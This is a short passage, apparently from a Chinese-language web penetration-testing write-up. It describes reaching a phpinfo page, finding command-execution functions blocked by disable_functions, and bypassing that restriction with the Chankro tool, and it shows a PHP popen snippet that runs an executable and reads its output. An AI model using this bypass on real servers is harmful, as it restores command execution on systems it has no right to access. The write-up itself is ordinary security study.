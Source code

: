 成功访问到 phpinfo 文件。

[![](assets/1704158243-b0449e2f3e2c78853aff419d7e86dba8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231231213015-bb9940c4-a7e0-1.png)

然后查看其 disable\_functions.发现大多数执行命令的函数都被禁用。

[![](assets/1704158243-69761ef3e848242f115a1931377fe97c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231231213023-c042f26e-a7e0-1.png)

对 disable\_functions 进行 Bypass  
推荐工具：[https://github.com/TarlogicSecurity/Chankro](https://github.com/TarlogicSecurity/Chankro)

```bash
<?php
error_reporting(E_ALL);

/* Add redirection so we can get stderr. */
$handle = popen('/path/to/executable 2>&1', 'r');
echo "'$handle'; " . gettype($handle) . "\n";
$read = fread($handle, 2096);
echo $read;
pclose($handle);
?>
```
